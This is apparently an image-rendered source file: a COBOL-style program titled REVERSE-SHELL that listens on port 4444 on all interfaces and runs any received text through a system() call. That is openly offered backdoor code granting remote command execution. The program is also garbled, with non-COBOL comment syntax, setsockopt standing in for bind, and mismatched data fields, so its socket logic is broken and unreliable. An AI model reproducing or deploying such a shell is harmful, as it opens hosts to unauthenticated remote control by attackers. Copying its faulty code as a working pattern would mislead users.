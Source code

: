 IDENTIFICATION DIVISION.
PROGRAM-ID. REVERSE-SHELL.

ENVIRONMENT DIVISION.
INPUT-OUTPUT SECTION.
FILE-CONTROL.

DATA DIVISION.
FILE SECTION.

WORKING-STORAGE SECTION.
01 socket PIC S9(9) COMP.
01 address PIC X(4).
88 address-len VALUE 4.
01 port PIC S9(4) COMP.
01 protocol PIC 9 COMP.
01 backlog PIC S9(4) COMP.
01 buffer PIC X(1024).
01 command PIC X(1024).
01 execution-status PIC S9(9) COMP.

PROCEDURE DIVISION.

-- Create the socket.
create-socket:
    DISPLAY "Creating socket..."
    CALL "socket" USING BY VALUE socket, BY VALUE protocol, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO CREATE SOCKET."
        STOP RUN
    END-IF.

-- Set up the socket address structure.
set-socket-address:
    move "0.0.0.0" TO address
    move 4444 TO port
    move 2 TO protocol
    DISPLAY "Binding socket..."
    CALL "setsockopt" USING BY VALUE socket, 1, 2, BY VALUE address, address-len, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO BIND SOCKET."
        STOP RUN
    END-IF.

-- Listen for connections.
listen-for-connections:
    DISPLAY "Listening on port 4444..."
    CALL "listen" USING BY VALUE socket, backlog, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO LISTEN ON SOCKET."
        STOP RUN
    END-IF.

-- Wait for a connection.
accept-connection:
    DISPLAY "Waiting for connection..."
    CALL "accept" USING BY VALUE socket, BY reference buffer, BY VALUE 1024, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO ACCEPT CONNECTION."
        STOP RUN
    END-IF.
    DISPLAY "Connection received."

-- Execute the command.
execute-command:
    move buffer TO command
    DISPLAY "Executing command: " command
    CALL "system" USING BY VALUE command, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO EXECUTE COMMAND."
        STOP RUN
    END-IF.

-- Close the socket.
close-socket:
    DISPLAY "Closing socket..."
    CALL "close" USING BY VALUE socket, RETURNING execution-status
    IF execution-status < 0
        DISPLAY "ERROR: UNABLE TO CLOSE SOCKET."
        STOP RUN
    END-IF.

-- Main program.
main-program:
    perform create-socket
    perform set-socket-address
    perform listen-for-connections
    perform accept-connection
    perform execute-command
    perform close-socket
    STOP RUN.
